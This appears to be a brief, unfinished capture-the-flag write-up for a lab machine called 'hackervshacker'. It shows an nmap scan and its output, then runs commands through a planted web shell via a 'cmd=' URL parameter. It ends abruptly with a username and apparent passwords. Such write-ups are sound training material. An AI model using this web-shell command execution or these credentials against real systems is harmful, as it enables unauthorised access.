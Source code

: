 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx hackervshacker.thm
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV hackervshacker.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

http://hackervshacker.thm/cvs/shell.pdf.php\
we can pass command with arg cmd=\


http://hackervshacker.thm/cvs/shell.pdf.php?cmd=id

lachlan
dHY5pzmNYoETv7SUaY
thisistheway123
thisistheway123
